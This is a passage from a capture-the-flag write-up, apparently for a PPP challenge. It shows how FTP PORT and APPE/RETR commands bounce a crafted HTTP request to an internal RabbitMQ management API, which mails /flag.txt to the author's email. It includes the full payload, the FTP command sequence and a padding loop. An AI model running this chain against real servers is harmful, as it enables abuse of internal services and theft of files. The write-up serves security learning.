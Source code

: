 ```
Content-Length: 267

{"vhost":"/","name":"amq.default","properties":{"delivery_mode":1,"headers":{}},"routing_key":"email","delivery_mode":"1","payload":"{\"to\":\"zevtnax+ppp@gmail.com\", \"attachments\": [{\"path\": \"/flag.txt\"}]}","headers":{},"props":{},"payload_encoding":"string"}
```
**Mind that the line ending should be CRLF*

Then send the following FTP commands:
```
USER user
PASS test
PORT 1,1,1,1,0,80
APPE zevtnax
```
*Replace 1,1,1,1 with your IP

This created a file named `zevtnax` and stored the POST request in it.
### Step 2:
Simple, send the file to rabbitmq server:
```
USER user
PASS test
PORT 172,32,56,72,0,15672
RETR zevtnax
```

But it didn't work. I spent a lot of time here. 

The problem is that apparently, ftp closes the data connection right after sending the POST request, which prevents rabbitmq management server from receiving the request successfully.

A quick workaround I could think of was to somehow make the data connection stay longer after sending the payload. One way to do this could be to append a lot of garbage after the payload.

So, run:
```bash
ubuntu@ip-172-31-3-141:~/ctf/problem$ for i in {0..1000};do cat payload_bak >> payload;done
```
Then send the payload again.

And Voila! It worked! I got the flag in my email.

Thanks PPP for this awesome chal! Quite a contrived challenge indeed.
